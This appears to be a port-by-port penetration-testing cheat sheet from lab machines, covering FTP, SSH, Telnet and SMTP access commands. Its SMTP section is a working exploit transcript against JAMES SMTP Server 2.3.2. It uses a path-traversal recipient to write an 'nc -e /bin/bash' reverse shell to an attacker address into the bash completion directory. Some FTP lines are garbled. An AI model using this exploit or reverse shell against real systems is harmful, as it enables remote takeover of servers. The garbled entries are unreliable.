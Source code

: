 FTP-21:
----------------
       ftp 10.10.10.10
       username:anonymous
       password:password
       
       
       ftp 10.10.10.10
       username:password:)
       password:password       psy shell
       
SSH-22:
------------------
       ssh user@10.10.10.10
       ssh -i id_rsa user@10.10.10.10
       ssh -L 5001:127.0.0.1:5009 user@10.10.10.10
       ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
       ssh permission 400 or 600
       
TELNET-23:
-------------------
       telnet 10.10.10.10  
       telnet 10.10.10.10 53 (Banner grabbing)
       
SMTP-25:
-------------------
       220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
       EHLO bla.bla
       250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
       250-PIPELINING
       250 ENHANCEDSTATUSCODES
       MAIL FROM: <'random@random.com>
       250 2.1.0 Sender <'random@random.com> OK
       RCPT TO: <../../../../../../../../etc/bash_completion.d>
       250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
       DATA
       354 Ok Send data ending with <CRLF>.<CRLF>
       FROM: bla.bla
       '
       /bin/nc -e /bin/bash 10.10.14.12 1234
       .
       250 2.6.0 Message received
       quit
